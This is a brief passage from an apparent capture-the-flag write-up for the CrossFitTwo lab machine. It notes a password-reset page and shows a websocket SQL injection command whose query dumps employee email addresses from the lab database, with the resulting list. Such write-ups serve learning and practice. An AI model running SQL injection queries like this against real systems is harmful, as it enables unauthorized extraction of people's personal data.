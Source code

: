 
### DNS Hijacking

* There is a "forgot password" option in `employees.crossfit.htb` login page.

  ![](/assets/img/posts/crossFitTwo/pass-reset.png)

* Found Email address from sql injection

      ❯ python websocket.py -u -p "SELECT group_concat(email) from employees.employees"
      david.palmer@crossfit.htb
      jack.parker@crossfit.htb
      maria.williams@crossfit.htb
      will.smith@crossfit.htb

